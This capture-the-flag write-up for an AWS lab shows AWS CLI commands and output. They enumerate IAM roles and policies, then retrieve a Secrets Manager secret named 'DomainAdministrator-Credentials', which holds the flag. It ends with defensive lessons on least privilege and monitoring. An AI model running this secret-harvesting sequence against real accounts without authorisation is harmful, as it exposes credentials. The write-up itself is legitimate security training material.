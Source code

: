 # Cloudfoxable 5 - Backwards

## Challenge Statement

In this challenge, we needed to retrieve a hidden flag stored in AWS Secrets Manager. We were given access to an IAM role named `Alexander-Arnold`, which had permissions that could help us access the flag. Our task was to enumerate IAM roles, analyze permissions, and extract the flag from AWS Secrets Manager.

## Analysis

The challenge required us to investigate the permissions assigned to `Alexander-Arnold` and determine if they allowed access to AWS Secrets Manager.

### **Step 1: Enumerating IAM Roles**

First, we listed the available IAM roles using AWS CLI:

```bash
aws iam list-roles --profile cloudfoxable
```

#### **Output:**

```json
{
  "Roles": [
    {
      "RoleName": "Alexander-Arnold",
      "Arn": "arn:aws:iam::418295694570:role/Alexander-Arnold"
    }
  ]
}
```

This confirmed the presence of the `Alexander-Arnold` role.

### **Step 2: Checking Attached Policies**

We then checked the policies attached to `Alexander-Arnold`:

```bash
aws iam list-attached-role-policies --role-name Alexander-Arnold --profile cloudfoxable
```

#### **Output:**

```json
{
  "AttachedPolicies": [
    {
      "PolicyName": "corporate-domain-admin-password-policy",
      "PolicyArn": "arn:aws:iam::418295694570:policy/corporate-domain-admin-password-policy"
    }
  ]
}
```

### **Step 3: Reviewing the Policy**

We retrieved the policy document to analyze its permissions:

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::418295694570:policy/corporate-domain-admin-password-policy --version-id v1 --profile cloudfoxable
```

#### **Output:**

```json
{
  "PolicyVersion": {
    "Document": {
      "Statement": [
        {
          "Action": ["secretsmanager:GetSecretValue"],
          "Effect": "Allow",
          "Resource": [
            "arn:aws:secretsmanager:us-east-1:418295694570:secret:DomainAdministrator-Credentials-mQa7vU"
          ]
        }
      ]
    }
  }
}
```

This indicated that the `Alexander-Arnold` role had access to retrieve a specific secret from AWS Secrets Manager.

### **Step 4: Listing Secrets**

We listed available secrets to identify the relevant one:

```bash
aws secretsmanager list-secrets --profile cloudfoxable
```

#### **Output:**

```json
{
  "SecretList": [
    {
      "Name": "DomainAdministrator-Credentials",
      "ARN": "arn:aws:secretsmanager:us-east-1:418295694570:secret:DomainAdministrator-Credentials-mQa7vU"
    }
  ]
}
```

### **Step 5: Retrieving the Secret Value**

Since our policy allowed access to `DomainAdministrator-Credentials`, we extracted the secret using:

```bash
aws secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials --profile Alexander-Arnold
```

#### **Output:**

```json
{
  "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}"
}
```

The flag was successfully retrieved!

## Solution Summary

1. **Enumerated IAM roles** using `aws iam list-roles`.
2. **Checked attached policies** for `Alexander-Arnold`.
3. **Retrieved and analyzed the policy document** to identify `secretsmanager:GetSecretValue` permissions.
4. **Listed secrets** in AWS Secrets Manager.
5. **Retrieved the secret value**, successfully obtaining the flag.

**Flag:**

```
FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}
```

## Reflection

### **Approach Taken**

- Enumerated IAM roles and policies.
- Identified `secretsmanager:GetSecretValue` permissions.
- Retrieved secret values using AWS CLI.

### **Challenges Faced**

- Understanding AWS IAM role permissions.
- Ensuring the correct AWS profile was used for requests.

### **Security Takeaways**

- **IAM permissions should follow the principle of least privilege.**
  - The policy allowed access to sensitive credentials, which could be exploited if misconfigured.
- **Secrets should have strict access controls.**
  - Any role with `secretsmanager:GetSecretValue` permissions should be carefully managed.
- **AWS CloudTrail should be enabled to monitor access to secrets.**
  - Logging and alerts should be set up for sensitive secret access attempts.

This challenge reinforced the importance of IAM privilege management and the need for secure access controls in AWS Secrets Manager. 🚀
